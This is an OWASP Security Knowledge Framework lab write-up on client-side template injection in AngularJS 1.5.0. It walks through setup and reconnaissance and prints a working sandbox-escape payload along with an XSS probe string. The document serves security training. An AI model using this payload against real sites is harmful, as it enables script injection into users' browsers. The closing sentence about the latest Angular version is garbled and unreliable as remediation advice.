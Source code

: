 # KBID 111 - Client Side Template Injection 


## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csti 
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti  
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](.gitbook/assets/csti-1.png) 

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```html
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try! 

{% hint style="info" %}We are going to use the same payload of the XSS lab{% endhint %}

```html
"><script>alert('XSS')</script>
```
Unfortunately the alert does not trigger :(

![](.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3 

{% hint style="warning" %}How do we get XSS?{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result. 

![](.gitbook/assets/csti-3.png)

{% hint style="success" %}Bingo!!{% endhint %}

## Exploitation 

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers. 

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit: 

* break the sanitizer
* escape the sandbox 
* forge a working payload 

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular. 

#### Step 1 

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```
We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2 

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```
We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute  JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes"%}
{% embed url="https://docs.angularjs.org/guide/security"%}


